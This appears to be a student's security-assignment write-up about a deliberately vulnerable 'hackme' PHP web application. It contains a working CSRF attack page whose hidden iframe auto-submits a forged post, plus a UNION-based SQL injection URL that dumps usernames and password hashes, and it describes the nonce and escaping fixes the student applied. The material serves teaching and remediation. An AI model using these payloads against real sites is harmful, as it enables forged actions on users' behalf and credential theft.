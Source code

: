 # Project Writeup (Part 2)

1. The hackme application is vulnerable to arbitrary POST requests made to `post.php`. If an user submits a POST request with the fields `title`, `message`, and `post_submit` the application will create a new post with the content of the POST. I exploit this vulnerability to post a message without a logged in user realizing what happened. 

 Typically JavaScript is required to execute actions on the web, especially if you don't want the user to know what happened. However modern browsers have CSRF protections built in and don't allow JavaScript to submit POST requests to other domains. But, I can still submit a form using the HTML form element that has its action set to the URL of `post.php`. I don't want the user to realize what happened, so I submit the form in a hidden iframe that is loaded when the user loads the attack page. 

 Two files are required for this attack, the attack page and the hidden iframe. Both are included below.

 _hackme-csrf.html_
 ```
 <!doctype html>
	<html lang="en">
	<head>
		<title>You win!</title>
	</head>
	<body>
		<h1>You win!</h1>
		<p>That's it, there's nothing else.</p>
		<iframe src="hidden-csrf.html" style="display:none;"></iframe>
	</body>
</html>
```

 _hidden-csrf.html_
 ```
 <form method="POST" action="http://10.121.20.103/hackme/post.php">
        <input type="hidden" name="title" value="You won!">    
        <input type="hidden" name="message" value="You have been selected for a free flying dragon ride.">
        <input type="hidden" name="post_submit" value="true">
        <button type="submit">Claim your prize!</button>       
 </form> 
        
 <script>                                                       
        //Onload, submit the form                              
        document.querySelector("form").submit();               
 </script>
 ```

 I implemented a nonce system in order to close this vulnerability. The application generates a random hash and stores it in the user's session. This hash is then output on the post form as a hidden value. When the user submits the page normally, they submit the hash and the system checks that it matches the originally generated hash. Every time the user attempts to verify the hash, a new one is generated thus preventing short term replay attacks (although it might be possible to generate the same hash twice in a row, the likelihood of this is extremely low). A failure to validate prevents the form from submitting and displays an error message. Attackers have no way of gaining access to the nonce hash unless they are able to hijack the user's session; in that case a nonce wouldn't stop the attacker from posting as the user. The user's session is protected by a unique session ID and the use of HTTPS. 


2. The original hackme application is extremely vulnerable to most kinds of SQL injection attacks. Input is not sanitized and attackers can input arbitrary SQL code. I can take advantage of this to force the application to display all users and their hashed passwords. This attack is possible because `show.php` interprets user input from the GET URL to display a post based upon a given ID. The original command expects an ID: `SELECT * FROM threads WHERE id = '".$_GET[pid]."'`

 But, an attacker can manipulate the URL to change the command: `/hackme/show.php?pid=' UNION DISTINCT SELECT null, pass as username, username, null, null FROM users WHERE 1=1 OR username='`. 

 A union operation is performed which grabs the `username` and `pass` fields from the `users` table. Null values are used because you can only perform unions between tables that have an identical number of columns. I alias `pass` as `username` so that the application logic will display its value in the username slot on the `show.php` page.

 In order to fix this, I no longer use direct `mysql_query()` commands. Instead I pass formatted string along with an array of values to the `pass()` method of `SiteAuthentication`. This method loops through all the values in the array and passes them to `mysqli_real_escape_string()` which returns an escaped version of the value. Finally these values are replaced in the formatted string and executed. A more robust solution in the real world would use PDO or MySQLi prepared statements which prevents changing the SQL command once the string has been compiled. However for this assignment, my solution is effective at stopping the above attack and others.
